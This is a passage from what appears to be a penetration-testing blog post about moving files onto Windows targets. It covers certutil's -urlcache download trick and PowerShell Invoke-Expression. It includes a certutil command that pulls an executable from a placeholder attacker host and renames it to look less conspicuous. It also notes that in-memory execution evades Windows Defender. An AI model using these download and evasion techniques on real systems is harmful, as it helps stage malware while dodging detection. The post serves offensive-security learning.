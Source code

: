 ### 2. certutil
Certutil is a command-line program that Microsoft usually uses for certificate services - [Microsoft Documentation](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/certutil). It is present in `cmd.exe` environments where PowerShell might not be available for your user or other restrictions apply. 

We use the `-urlcache` option together with the `-f` flag - the former tells `certutil` to retrieve a "cached" certificate and the latter forces `certutil` to fetch the remote resource, which should be a certificate in theory (but it does not have to be ;) ). 

Another neat trick is that you can rename your files and thus make them less conspicuous, just add a new filename at the end of the download command and your file now has a shiny new name on the windows machine. 

```bash
certutil -urlcache -f http://<attackerIP>:<port>/file_to_be_uploaded.exe <new_filename.exe>
```

## PowerShell and cmdlets
Now we dive into the world of PowerShell, the only scripting language you will ever need in windows land (according to Microsoft?). I am still amazed about its design and ideas, so much that I constantly need a cheat sheet around in order to remember the basic syntax. 
One nice thing though - it is case-insensitive, no more capitalization typos for me, thank you. 
Chapeau to whoever designed it, I will never be as smart as you and fortunately, I am content with that.


Powershell uses lightweight commands - so-called `cmdlets`, which to me is similar to Unix one-liner aliases defined in your .bashrc combined with Python's object-oriented - everything is an object - style. 

>Technically, a `cmdlet` is a Microsoft .Net Class instance and it returns a Microsoft .Net object. They use a `verb-noun` syntax.

_To simplify things_: With our programming knowledge we can deduct that this resulting object potentially has its own functionalities/methods/attributes which we could explore and the object can be used for further processing within other `cmdlets` or scripts. 
You are also able to define your own `cmdlets` which is out of scope for this blog post, but the interested reader could check out: [cmdlet documentation](https://docs.microsoft.com/en-us/powershell/scripting/developer/cmdlet/cmdlet-overview?view=powershell-7.2) & [How to write a simple cmdlet](https://docs.microsoft.com/en-us/powershell/scripting/developer/cmdlet/how-to-write-a-simple-cmdlet?view=powershell-7.2)


### 3. invoke-expression
Back to the interesting bits and pieces, we can use Invoke-Expression to execute code on the local machine. One interesting way is to tell the machine to go and fetch some remote resource for us, sometimes also called downloading files ;). 

**The important part about about Invoke-Expression is that it does not touch the hard disk, everything is kept in memory, so it by design "evades" Windows Defender** (but not AMSI and real-time protection among others, unfortunately).

The [Microsoft documentation](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-expression?view=powershell-7.2&viewFallbackFrom=powershell-6) warns users that the use of `invoke-expression` in scripts is discouraged, unless you use predefined inputs and don't let the user directly run their own "expressions". 

